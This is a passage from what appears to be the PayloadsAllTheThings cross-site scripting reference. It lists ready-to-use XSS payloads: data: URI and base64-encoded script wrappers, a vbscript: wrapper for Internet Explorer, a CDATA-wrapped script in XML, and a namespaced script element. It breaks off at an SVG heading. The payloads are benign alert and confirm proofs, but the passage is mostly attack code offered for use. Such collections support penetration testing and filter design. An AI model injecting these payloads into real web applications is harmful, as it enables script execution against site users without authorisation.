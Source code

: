 ### Wrapper data

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#wrapper-data)

```js
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### Wrapper vbscript

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#wrapper-vbscript)

only IE

```js
vbscript:msgbox("XSS")
```

## XSS in Files

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-files)

**NOTE:** The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XSS in XML

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-xml)

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS in SVG

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-svg)

Simple script. Codename: green triangle
